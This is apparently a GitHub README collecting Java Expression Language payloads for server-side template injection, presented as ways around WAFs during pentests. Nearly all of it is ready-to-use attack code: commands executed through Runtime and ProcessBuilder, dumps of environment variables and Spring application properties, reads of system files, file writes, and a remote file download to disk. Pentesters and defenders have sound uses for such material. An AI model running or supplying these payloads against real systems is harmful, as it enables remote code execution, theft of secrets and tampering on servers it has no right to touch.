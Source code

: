 # Java-EL-SSTI-Advanced
Advanced Expression Language payloads for Java based SSTI's

## Whats it about:
For some cases, regular SSTI EL payloads are not suitable, because of something like WAF, prohibition of file execution and etc, so u may not able to shot regular payloads such as:
```java
T(java.lang.Runtime).getRuntime().exec('calc')
''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<COMMAND STRING/ARRAY>)
''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<COMMAND ARRAY/LIST>).start()
```
(for more see on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#expression-language-el) and [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#java))

You probably need to start think in another way and try gather and do as much as possible... 
So, this repository was born from payloads developed during a regular web application pentest and several others written out of boredom, feel free to push more!

## Environment and properties
```Java
T(java.lang.System).getenv().toString()
T(java.lang.System).getProperties().toString()
```
## Spring properties
```Java
T(org.springframework.core.io.support.PropertiesLoaderUtils).loadAllProperties("application.properties").toString()

"".getClass().forName("org.springframework.core.io.support.PropertiesLoaderUtils").getMethod("loadAllProperties","".getClass()).invoke("","application.properties").toString()
```

## Reading command output
```java
T(java.lang.Runtime).getRuntime().exec('whoami').getInputStream().readAllBytes()
```

## Listing files
```java
"".getClass().forName("java.io.File").getConstructor("".getClass()).newInstance("C:/Windows").listFiles()
```

## Download files
```java
T(java.nio.file.Files).copy(new java.net.URL("http://127.0.0.1:8888/test.txt").openStream(),"".getClass().forName("java.nio.file.Paths").getMethods()[0].invoke(null,"C:/Windows/Temp/test3.txt",new String[]{}))
```

## Read Files (Strings)
```java
// this one may not work beacuse of difference of java.nio.file.Paths.Get arguments from java to java
"".getClass().forName("java.nio.file.Files").getMethod("readAllLines","".getClass().forName("java.nio.file.Path")).invoke("","".getClass().forName("java.nio.file.Paths").getMethods()[0].invoke("","",new String[]{"C:/Windows/System32/drivers/etc/hosts"}))

"".getClass().forName("java.nio.file.Files").getMethod("readAllLines","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/System32/drivers/etc/hosts")))

"".getClass().forName("java.nio.file.Files").getMethod("readAllLines","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

T(java.nio.file.Files).readAllLines("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))
```

## Read Files (Bytes)
```java
// this one may not work beacuse of difference of java.nio.file.Paths.Get arguments from java to java
"".getClass().forName("java.nio.file.Files").getMethod("readAllBytes","".getClass().forName("java.nio.file.Path")).invoke("","".getClass().forName("java.nio.file.Paths").getMethods()[0].invoke("","",new String[]{"C:/Windows/System32/drivers/etc/hosts"}))

"".getClass().forName("java.nio.file.Files").getMethod("readAllBytes","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/System32/drivers/etc/hosts")))

"".getClass().forName("java.nio.file.Files").getMethod("readAllBytes","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

T(java.nio.file.Files).readAllBytes("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

```

## Write Files (Strings)
```java
// not at uri "file:/" prefix
// change "hello" to your file content
"".getClass().forName("java.nio.file.Files").getMethod("write","".getClass().forName("java.nio.file.Path"),"".getClass().forName("[B"),"".getClass().forName("[Ljava.nio.file.OpenOption;")).invoke("","".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/Temp/qwe.txt")), "hello".getBytes(), new java.nio.file.OpenOption[] {"".getClass().forName("java.nio.file.StandardOpenOption").getField("CREATE").get(null)})

T(java.nio.file.Files).write("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/Temp/qwe.txt")), "hello".getBytes(), new java.nio.file.OpenOption[] {"".getClass().forName("java.nio.file.StandardOpenOption").getField("CREATE").get(null)})

T(java.nio.file.Files).write("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/Temp/qwe.txt")), "hello".getBytes(), new java.nio.file.OpenOption[] {"".getClass().forName("java.nio.file.StandardOpenOption").getField("CREATE").get(null)})

```

## List packages
```java
T(java.util.Arrays).toString("".getClass().forName("java.lang.Package").getMethod("getPackages").invoke(""))

"".getClass().forName("java.util.Arrays").getMethod("toString","".getClass().forName("[Ljava.lang.Object;") ).invoke("","".getClass().forName("java.lang.Package").getMethod("getPackages").invoke("")).toString()
```

## List classes/files of package
```java
// replace org/myapplication to your /org/custom/package
"".getClass().forName("java.io.File").getConstructor("".getClass().forName("java.lang.String")).newInstance("".getClass().forName("java.lang.Thread").currentThread().getContextClassLoader().getResource("org/myapplication").getFile()).listFiles()
```

## List properties of custom class
```java
// replace org.myapplication.User to your class
"".getClass().forName("java.util.Arrays").getMethod("toString", "".getClass().forName("[Ljava.lang.Object;")).invoke(null, new java.lang.Object[]{"".getClass().forName("org.myapplication.User").getDeclaredFields()}).toString()
```

## List all class methods
```java
// replace org.myapplication.User to your class
"".getClass().forName("java.util.Arrays").getMethod("toString","".getClass().forName("[Ljava.lang.Object;") ).invoke("",new java.lang.Object[]{"".getClass().forName("org.myapplication.User").getDeclaredMethods()})
```
